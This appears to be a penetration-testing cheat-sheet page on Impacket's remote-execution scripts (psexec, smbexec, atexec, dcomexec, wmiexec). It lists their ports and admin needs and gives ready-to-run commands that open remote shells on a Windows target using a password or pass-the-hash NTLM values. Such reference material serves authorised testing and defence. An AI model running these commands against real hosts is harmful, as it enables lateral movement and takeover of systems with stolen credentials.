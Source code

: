 
## Impacket

From [fortra/impacket](https://github.com/fortra/impacket) (:warning: renamed to impacket-xxxxx in Kali)    
:warning: `get` / `put` for wmiexec, psexec, smbexec, and dcomexec are changing to `lget` and `lput`.    
:warning: French characters might not be correctly displayed on your output, use `-codec ibm850` to fix this.   
:warning: By default, Impacket's scripts are stored in the examples folder: `impacket/examples/psexec.py`. 

All Impacket's *exec scripts are not equal, they will target services hosted on multiples ports. 
The following table summarize the port used by each scripts.

| Method      | Port Used                             | Admin Required |
|-------------|---------------------------------------|----------------|
| psexec.py   | tcp/445                               | Yes            |
| smbexec.py  | tcp/445                               | No             |
| atexec.py   | tcp/445                               | No             |
| dcomexec.py | tcp/135, tcp/445, tcp/49751 (DCOM)    | No             |
| wmiexec.py  | tcp/135, tcp/445, tcp/50911 (Winmgmt) | Yes            |

* `psexec`: equivalent of Windows PSEXEC using RemComSvc binary.
    ```ps1
    psexec.py DOMAIN/username:password@10.10.10.10
    ```
* `smbexec`: a similar approach to PSEXEC w/o using RemComSvc
    ```ps1
    smbexec.py DOMAIN/username:password@10.10.10.10
    ```
* `atexec`: executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
    ```ps1
    atexec.py DOMAIN/username:password@10.10.10.10
    ```
* `dcomexec`: a semi-interactive shell similar to wmiexec.py, but using different DCOM endpoints
    ```ps1
    dcomexec.py DOMAIN/username:password@10.10.10.10
    ```
* `wmiexec`: a semi-interactive shell, used through Windows Management Instrumentation. First it uses ports tcp/135 and tcp/445, and ultimately it communicates with the Winmgmt Windows service over dynamically allocated high port such as tcp/50911.
    ```ps1
    wmiexec.py DOMAIN/username:password@10.10.10.10
    wmiexec.py DOMAIN/username@10.10.10.10 -hashes aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    ```
